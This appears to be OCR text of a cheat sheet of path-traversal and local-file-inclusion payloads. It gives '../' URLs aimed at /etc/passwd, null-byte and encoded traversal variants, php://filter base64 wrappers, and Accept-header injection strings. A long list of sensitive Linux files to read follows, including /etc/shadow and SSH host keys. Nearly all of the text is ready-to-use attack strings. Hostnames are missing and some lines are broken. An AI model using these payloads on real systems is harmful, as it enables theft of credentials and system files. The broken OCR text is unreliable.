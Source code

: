 http\:///.php?file= http\:///.php?file=../../../../../../../../etc/passwd http\:////php?file=../../../../../../../../../../etc/passwd

Until php 5.3

http\:////php?file=../../../../../../../../../../etc/passwd%00

Null Byte

%00 0x00

Encoded Traversal Strings

../ ..\
../ %2e%2e%2f

%252e%252e%252f %c0%ae%c0%ae%c0%af %uff0e%uff0e%u2215 %uff0e%uff0e%u2216 ..././ ....\\

php\://filter Wrapper

<https://tinyurl.com/yux6oqdu> <https://tinyurl.com/y4ezgl4c/tree/master/File%20Inclusion> <https://tinyurl.com/y4ezgl4c/tree/master/File%20Inclusion#wrapper-phpfilter> url=php\://filter/convert.base64-encode/resource=file:////var/www//api.php

http\:///index.php?page=php\://filter/convert.base64-encode/resource=index http\:///index.php?page=php\://filter/convert.base64-encode/resource=/etc/pass base64 -d .php

Django, Rails, or Node.js Web Application Header Values

Accept: ../../../../.././../../../../etc/passwd{{ Accept: ../../../../.././../../../../etc/passwd{%0D Accept: ../../../../.././../../../../etc/passwd{%0A Accept: ../../../../.././../../../../etc/passwd{%00 Accept: ../../../../.././../../../../etc/passwd{%0D{{ Accept: ../../../../.././../../../../etc/passwd{%0A{{ Accept: ../../../../.././../../../../etc/passwd{%00{{

Linux Files

/etc/passwd /etc/shadow /etc/aliases /etc/anacrontab /etc/apache2/apache2.conf /etc/apache2/httpd.conf /etc/apache2/sites-enabled/000-default.conf /etc/at.allow

/etc/at.deny /etc/bashrc /etc/bootptab /etc/chrootUsers /etc/chttp.conf /etc/cron.allow /etc/cron.deny /etc/crontab /etc/cups/cupsd.conf /etc/exports /etc/fstab /etc/ftpaccess /etc/ftpchroot /etc/ftphosts /etc/groups /etc/grub.conf /etc/hosts /etc/hosts.allow /etc/hosts.deny /etc/httpd/access.conf /etc/httpd/conf/httpd.conf /etc/httpd/httpd.conf /etc/httpd/logs/access\_log /etc/httpd/logs/access.log /etc/httpd/logs/error\_log /etc/httpd/logs/error.log /etc/httpd/php.ini /etc/httpd/srm.conf /etc/inetd.conf /etc/inittab /etc/issue /etc/knockd.conf /etc/lighttpd.conf /etc/lilo.conf /etc/logrotate.d/ftp /etc/logrotate.d/proftpd /etc/logrotate.d/vsftpd.log /etc/lsb-release /etc/motd /etc/modules.conf /etc/motd /etc/mtab /etc/my.cnf /etc/my.conf /etc/mysql/my.cnf /etc/network/interfaces /etc/networks /etc/npasswd

/etc/passwd /etc/php4.4/fcgi/php.ini /etc/php4/apache2/php.ini /etc/php4/apache/php.ini /etc/php4/cgi/php.ini /etc/php4/apache2/php.ini /etc/php5/apache2/php.ini /etc/php5/apache/php.ini /etc/php/apache2/php.ini /etc/php/apache/php.ini /etc/php/cgi/php.ini /etc/php.ini /etc/php/php4/php.ini /etc/php/php.ini /etc/printcap /etc/profile /etc/proftp.conf /etc/proftpd/proftpd.conf /etc/pure-ftpd.conf /etc/pureftpd.passwd /etc/pureftpd.pdb /etc/pure-ftpd/pure-ftpd.conf /etc/pure-ftpd/pure-ftpd.pdb /etc/pure-ftpd/putreftpd.pdb /etc/redhat-release /etc/resolv.conf /etc/samba/smb.conf /etc/snmpd.conf /etc/ssh/ssh\_config /etc/ssh/sshd\_config /etc/ssh/ssh\_host\_dsa\_key /etc/ssh/ssh\_host\_dsa\_key.pub /etc/ssh/ssh\_host\_key /etc/ssh/ssh\_host\_key.pub /etc/sysconfig/network /etc/syslog.conf /etc/termcap /etc/vhcs2/proftpd/proftpd.conf /etc/vsftpd.chroot\_list /etc/vsftpd.conf /etc/vsftpd/vsftpd.conf /etc/wu-ftpd/ftpaccess /etc/wu-ftpd/ftphosts /etc/wu-ftpd/ftpusers /logs/pure-ftpd.log /logs/security\_debug\_log /logs/security\_log /opt/lampp/etc/httpd.conf
